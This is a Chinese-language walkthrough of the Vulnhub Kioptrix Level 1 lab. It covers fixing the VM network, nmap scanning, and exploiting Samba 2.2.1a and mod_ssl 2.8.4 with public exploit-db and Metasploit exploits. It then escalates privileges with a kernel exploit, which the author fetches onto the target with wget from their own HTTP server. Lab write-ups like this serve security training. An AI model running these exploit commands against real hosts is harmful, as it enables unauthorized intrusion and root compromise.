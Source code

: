 #Vulnhub - Kioptix Level 1

## 一、前言

### 简介：

Vulnhub是一个提供各种漏洞环境的靶场平台。



### 下载地址：

https://www.vulnhub.com/entry/kioptrix-level-1-1,22/



### 网络问题：

症状：

1、将靶机网络适配器修改为Nat模式后启动靶机，使用nmap对网段进行扫描会发现扫描不到靶机IP地址。

![image-20231226201204026](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312262012051.png)



解决方法：

1、将靶机在VMware中移除。

![image-20231226194201751](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312261942783.png)

2、以记事本打开此文件。![image-20231226194357878](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312261943922.png)

3、删除所有以 **`"ethernet0"`** 开头的条目并保存更改。

![image-20231226195235120](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312261952176.png)

4、 然后重新导入虚拟机，并重新添加虚拟网络适配器且将其网络模式设置为NAT模式。

![image-20231226195659175](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312261956214.png)

5、开启虚拟机，并重新使用nmap对网段进行扫描

![image-20231226200338448](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312262003490.png)



### 参考：

https://www.cnblogs.com/jason-huawen/p/16097208.html



### 靶场环境：

Kali IP：192.168.8.128

靶机 IP：192.168.8.129

网络适配器模式：NAT



## 二、Walkthrough

1、首先使用  **`nmap -sP`**  参数对网段进行扫描，扫描出靶机IP。

![image-20231226200338448](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312262003490.png)

2、扫描出IP后使用  **`nmap -sV`** 参数对靶机进行服务和版本探测。

![image-20231226204743693](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312262047723.png)

3、到这里后有几个思路，对开放端口进行深入信息收集。可以对80和443端口进行访问，看是否可以收集更多信息。（例如：CMS类型和版本、Web服务器类型和版本、操作系统类型和版本、目录扫描、robots.txt文件），如果CMS版本有历史漏洞可以尝试从该点切入。



### Samba

由于Samba的版本nmap没有扫描出来，这里使用 **`msfconsole`** 命令启动MSF，使用MSF自带的smb_version进行搜索。

![image-20231227204750201](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312272047297.png)

搜索到该模块后使用 **`use +序号`** 进行使用模块（这里是 **use0** ）,在使用该模块后使用 **`show options`** 命令查看该模块需要设置的功能点，这里发现RHOSTS 没有设置，将RHOSTS设置为靶机IP地址后，再次使用命令查看是否存在还需要设置的功能点，这里发现已经设置好了直接使用 **`run`** 命令使用模块，Samba版本为 **2.2.1a**。

![image-20231227205147361](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312272051411.png)

已知Samba版本使用`searchsploit samba`搜索到所有包含Samba的exp，这里使用可以远程命令执行的（网上搜的）。

![image-20231228190710699](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281907798.png)



#### Samba Remote Code Execution（RCE）

exp 文件路径为`/usr/share/exploitdb/exploits/multiple/remote/10.c` 使用`cp`命令将exp复制到合适的位置，我这里是复制到了**`/opt/exp`**文件夹下（需要使用root权限启动终端）。

![image-20231228190952110](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281909137.png)

 使用`gcc 10.c -o samba_exp`命令编译exp（-o 是输出，后面的是输出的文件名），编译完成后使用`chmod u+x`命令为用户添加执行权限。

![image-20231228191436417](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281914455.png)

使用`./samba_exp -b0 IP地址 `命令启动（-b 参数是platform，0为Linux），启动成功后成功getshell。

![image-20231228191847644](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281918674.png)



#### Samba trans2open

在互联网中查找资料后得知还有这种利用方式，而且msf中已经集成了该模块，直接启动msfconsole，使用命令搜索。

![image-20231229070238874](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312290702904.png)

搜索出来后直接使用 **use** 命令来使用并且设置LHOST、RHOSTS、Payload,但是这里遇到一个问题就是有时候会不成功，同一台Kali的另一个msfconsole窗口就可以成功获取shell。

![image-20231229070644032](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312290706087.png)

在另一个窗口中成功getshell，这里已经是root权限不需要提权。

![image-20231229070853181](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312290708214.png)



### rpcbind

111端口为rpcbind服务，该服务存在漏洞(该漏洞可使攻击者在远程rpcbind绑定主机上任意大小的内存(每次攻击最高可达4GB),除非进程崩溃或者管理员挂起/重启rpcbind服务，否则该内存不会被释放)。

nmap扫描已知版本为 **`rpcbind 2`** ,启动MSF 使用searchsploit命令看漏洞库中是否存在该漏洞。

1、使用msf自带的的模块扫描rpcbind，命令为

`use auxiliary/scanner/misc/sunrpc_portmapper`，设置 **RHOSTS**后直接**run**。

![image-20231228194643291](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281946330.png)

2、由于没找到什么有用信息，这里使用 **`searchsploit rpcbind`**命令搜索一下发现搜索到了三个Exp，把这三个**Exp**都复制下来后挨个使用发现都没有作用。

![image-20231228195256134](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281952163.png)



26887.rb

![image-20231228195212741](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281952772.png)



41974.rb

![image-20231228195416676](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281954709.png)



20376.txt

![image-20231228195507308](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312281955335.png)

里面的网址也都不能访问，所以rpcbind这条路作罢。



### mod_ssl

由于nmap在信息收集的过程中收集到了mod_ssl的版本为2.8.4 ,这里使用命令`searchsploit mod_ssl 2.8`搜索Exp，复制搜索到的Exp到本地进行编译。

![image-20231228201852245](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282018276.png)



21671.c和764.c编译失败



47080.c

首先使用命令`gcc 47080.c -o 47080`进行编译发现编译失败，一番搜索后在后面添加参数 `-lcrypto`后编译成功，完整命令如下：

```
gcc 47080.c -o 47080 -lcrypto
```

使用命令`./47080`启动编译后的软件给我们了使用方法，在前期信息收集时可以得知操作系统为`Redhat Linux Apache的版本为1.3.20`

![image-20231228204732617](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282047655.png)

这里使用以下命令成功拿到低权限Shell，但是不知道为什么使用**0x6a**不成功。

```
./47080 0x6b 192.168.8.129(IP地址) 443 -c 50
```

![image-20231228205918440](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282059474.png)

后面就要考虑提权的问题了，提权的方法有很多，这里使用Linux内核漏洞提权，上面拿到低权限shell后使用`uname -a`命令查看内核版本。

![image-20231228211433421](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282114442.png)

直接搜索Exp并复制到`/opt/exp`目录下。

![image-20231228211549537](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282115664.png)

![image-20231228214322941](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282143966.png)

使用  **`python3 -m http.server`**  命令开开启HTTP服务。

![image-20231228214519952](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282145978.png)

在低权限shell中使用**`wget 192.168.8.128:8000/3.c`** 命令下载到靶机中，并使用`gcc 3.c -o exp`命令编译，编译后使用命令`./exp`启动，到这里提权成功。

![image-20231228215409847](https://tryhackme.oss-cn-beijing.aliyuncs.com/tryhackme/202312282154882.png)

## 三、总结

1、网络发现可以用netdiscover工具来找到靶机IP。

2、samba扫描工具可以使用以下几个

```
1、msf中的smb_version
2、enum4linux
```

